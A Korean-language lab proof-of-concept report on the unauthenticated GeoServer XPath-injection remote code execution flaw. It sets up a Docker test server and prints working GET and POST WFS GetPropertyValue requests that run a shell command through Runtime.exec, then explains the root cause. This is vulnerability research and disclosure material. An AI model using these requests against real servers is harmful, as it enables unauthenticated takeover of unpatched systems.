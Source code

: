 # GeoServer RCE 취약점 PoC 보고서

GeoServer는 자바로 작성된 오픈소스 소프트웨어 서버로, 지리공간 데이터를 조회, 편집, 공유할 수 있는 기능을 제공합니다. 이 서버는 GIS (Geographic Information System) 데이터베이스, 웹 기반 데이터, 개인 데이터셋 등 다양한 출처의 지리공간 데이터를 배포하기 위한 유연하고 효율적인 솔루션을 목표로 설계되었습니다.

GeoServer 2.25.1, 2.24.3 및 2.23.5 이전 버전에서는, 기본 GeoServer 설치 환경에서 인증되지 않은 사용자가 여러 OGC 요청 파라미터를 통해 특수하게 조작된 입력을 전달할 경우 XPath 표현식으로 속성 이름을 안전하지 않게 평가함으로써 원격 코드 실행(RCE)이 가능하게 되는 취약점이 존재합니다.

## 참고 자료

- [GHSA-6jj6-gm7p-fcvv](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv)
- [GHSA-w3pj-wh35-fq8w](https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w)
- [TTTang Archive](https://tttang.com/archive/1771/)
- [CVE-2022-41852 by Warxim](https://github.com/Warxim/CVE-2022-41852)

## 취약 환경

GeoServer 서버 버전 2.23.2를 시작하려면 다음 명령어를 실행합니다:

```bash
docker compose up -d
```
서버가 시작된 후, 웹 브라우저에서 http://your-ip:8080/geoserver 에 접속하면 GeoServer의 기본 페이지가 표시됩니다.

## Exploit (취약점 공격 방법)
공식 취약점 공지에서는 다음과 같은 내용이 제공됩니다:

공개된 PoC (Proof of Concept)는 없으나, 이 취약점은 WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic, 그리고 WPS Execute 요청을 통해 실제로 악용 가능함이 확인되었습니다.

예를 들어, 저는 GetPropertyValue 요청을 이용해 악의적인 XPath 표현식을 실행할 예정입니다. 공식 문서를 참고하면 GET 방식 PoC는 다음과 같습니다:
```bash
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
POST 방식 PoC는 다음과 같습니다:

```xml
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```
전형적으로 발생하는 java.lang.ClassCastException 오류 메시지가 나타날 수 있습니다.
![1.png](./1.png)
![2.png](./2.png)

보시다시피, success1, success2 파일이 모두 성공적으로 생성되었습니다.

#### 중요 사항
![3.png](./3.png)
typeNames 파라미터는 반드시 존재해야 합니다. 로그인 없이 웹 서버에 존재하는 모든 사용 가능한 타입들을 확인할 수 있습니다.
![4.png](./4.png)

# 원리
### 배경: 
GeoServer는 OGC 표준 프로토콜 (예: WFS, WMS 등)을 제공하며, 내부적으로 XPath와 같은 기능을 사용해 “ValueReference”나 “typeNames” 등을 해석합니다.

### 취약점 요지:
특정 요청 파라미터 (예: valueReference)가 XPath 표현식처럼 처리되며, 동시에 Java의 exec() 함수를 호출할 수 있을 정도로 확장되어 있습니다. 정상적인 경우에는 단순 속성 (예: typeNames=sf:archsites) 만을 해석해야 하지만, GeoServer 내부 코드가 이를 안전하게 검증하지 않고 XPath 구문으로 직렬화하거나 해석함으로써 문제가 발생합니다.

### 결과:
공격자는 exec(java.lang.Runtime.getRuntime(), 'touch /tmp/success1') 같은 Java 함수 호출 구문을 삽입하여 원격 코드 실행(RCE)을 유발할 수 있습니다.

